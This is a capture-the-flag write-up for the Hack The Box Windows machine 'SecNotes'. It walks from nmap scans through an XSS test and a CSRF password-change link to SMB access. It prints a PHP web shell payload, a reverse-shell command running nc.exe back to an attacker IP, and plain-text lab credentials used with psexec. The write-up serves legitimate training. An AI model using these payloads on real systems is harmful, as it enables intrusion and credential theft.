

# Secnotes

| | |
|---|---|
| **OS** | Windows |
| **Difficulty** | Medium |
| **Topics** | CSRF, IIS File Upload to abuse PHP Shell, WSL Discovery, Plain-Text Creds, wmiexec |

---

## 📁 Folder Structure

- [`content/`](content/) — screenshots and inline references used in the write-up
- [`nmap/`](nmap/) — raw nmap output files
- [`exploit/`](exploit/) — exploit scripts, binaries, payloads, and other tools used

---

# Enumeration

## Nmap

SYN Stealth Scan

```bash
sudo nmap -p- --open -sS --min-rate 5000 -Pn -n -v 10.10.10.97 -oN AllPorts 
```

Result:

```markdown
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
8808/tcp open  ssports-bcast
```

TCP Full Scan: 

```bash
nmap -p80,445,8808 -sCV -Pn -n 10.10.10.97 -oN FullScan
```

Result: 

```markdown
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-title: Secure Notes - Login
|_Requested resource was login.php
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h19m21s, deviation: 4h02m32s, median: -40s
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2025-04-15T11:09:08-07:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-04-15T18:09:04
|_  start_date: N/A

```

Port 80 - Enumeration: 



We can see a login portal. After trying default credentials we did not get access. 

However, there is an option to create an account. 


Let’s try to create an account and then proceed to sign-in with it. 

After login in with our user we can see the following panel:


We can see an email ‘tyler@secnotes.htb’ for additional contact in case there are questions. 

First, let’s try to create a note: 


After clicking save, we got redirected to the home page, and we can see the note created by us.


Port 8808 - Enumeration: 
For this port we only have a default IIS portal. 


# Initial Access

After login in, we can create notes or contact directly the support team, which in this case is Tyler. 

Let’s create a note with the following payload:

```bash
<script>alert("title")</script>
```


Inmediately after clicking save we got the payload executed, meaning that the website is vulnerable to XSS 


Now let’s try with the option “Contact Us”, and send a message with simple link that points to our attacker machine. 

First start the HTTP server in our kali machine: 

```bash
python3 -m http.server 80
```

Next, let’s send the message: 

```bash
Click here: http://10.10.14.18/pwned
```


After sending the message we will notice a request coming from the server, indicating that the user clicked on our link. 


Additionally we can see that the request was a “GET”. Based on this, we can force the user to make unintended requests to either internal or external resources. 

One resource we have is the “Update Password”. 


Let’s try to update our password and capture the request using BurpSuite. 

Capturing the request: 


Noticed that the request type is a POST, and we need a GET, however, this is not a problem as we can convert the POST requests into GET requests via Burp. 

First send the request to `Repeater` 

Next, do right click on the request and select “Change request method”


Once changed, we should have the same request but in GET format: 


Let’s try to send this request to see if the server accepts it. (click on follow redirection requests)

Success! The server accepted the request. 


Now, let’s copy the main URI which is the following: 

```bash
/change_pass.php?password=mypass&confirm_password=mypass&submit=submit
```

Concatenate with the IP of the server: 

```bash
http://10.10.10.97/change_pass.php?password=mypass&confirm_password=mypass&submit=submit
```

And send it via the Contact Us message functionality to the admin (Tyler): 


The expected behavior will that user clicks on the link and automatically changes its password. 

Since the user is tyler we will have both creds: user and pass. 

Let’s try to log on with the pass we defined in the link: 

```bash
User: tyler
Pass: mypass
```

Success! We have successfully logged on as `Tyler`


Doing further enumeration we will see a note containing some credentials for a new site: 


However, after validating all the subdirectories for the website hosted on port 80, we determine that the path `new-site` doesn’t exist. 

Creds:

```bash
tyler / 92g!mA8BGjOirkL%OG*&
```

Doing further enumeration on port 445 we will see that those credentials are valid for SMB. 


We can see a folder named `new-site`

Let’s try to enumerate this folder to see the content: 

```bash
smbclient //10.10.10.97/new-site -U tyler
```

Enumerating the folder we can see that it seems to be linked to the IIS website: 


Now, since the server is running a IIS, is it possible that our file uploaded is visible via HTTP Server. 

First, let’s try to upload a `php` webshell.  We can use the following payload: 

```bash
<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>
```

Then we just need to put this code into file with extension `.php` and upload it: 


Note: Apparently the server deletes the files after some time. So if the request doesn’t work it is probably because the file was removed from the smb server.  Try to upload it again. 

Now, let’s try to access the file via HTTP:

Request: 

```bash
http://10.10.10.97:8808/shell.php?cmd=whoami
```


Success! We have Remote Command Execution. 

Let’s try to create a shell. First, let’s also upload a version of the netcat binary to the SMB server (nc.exe)


Take into consideration that the file is now on the path `\\10.10.10.97\new-site` of the remote site. 

Use the following request that passes as argument the internal path of the SMB that contains the SMB. At the same time we pass the IP and the port of our attacker machine. (*nc.exe attacker-ip listener-port -e cmd.exe*) 

```bash
http://10.10.10.97:8808/shell.php?cmd=\\10.10.10.97\new-site\nc.exe 10.10.14.3 4444 -e cmd.exe
```

If everything goes well, we should have a reverse shell connection: 


# Privilege Escalation

Doing further enumeration, we will on the path C:\ that there is file identified as "Ubuntu.zip" and a "Distros\Ubuntu" folder. This could indicate that a Windows Subsystem for Linux (WSL) has been installed.


To verify this we can run this command: 

Note: we need to switch to a PowerShell terminal:

```bash
Get-ChildItem HKCU:\Software\Microsoft\Windows\CurrentVersion\Lxss | %{Get-ItemProperty $_.PSPath} | out-string -width 4096
```

Result:


This indicates that a WSL instance has been installed. 

Note: WinPEAS also confirmed this


From the previous output we can see also the Basepath where the full file system is stored: 

```bash
C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState
```

Enumerating the system: 


We can see the root of the installation: 


Checking directly the folder of root: 


We can see the file `.bash_history` which could contain valid information. 

Enumerating `.bash_history`


Success! We can see some plain-text credentials for the user Administrator.

Credentials:

```bash
administrator:u6!4ZwgwOM#^OBf#Nwnh
```

Let’s validate the credentials using crackmapaexec: 


This confirms that credentials are valid. 

Let’s try connect using wmiexec.py:

```bash
psexec.py user:pass@IP
```

```bash
psexec.py Administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97
```


[Owned SecNotes from Hack The Box!](https://www.hackthebox.com/achievement/machine/906667/151)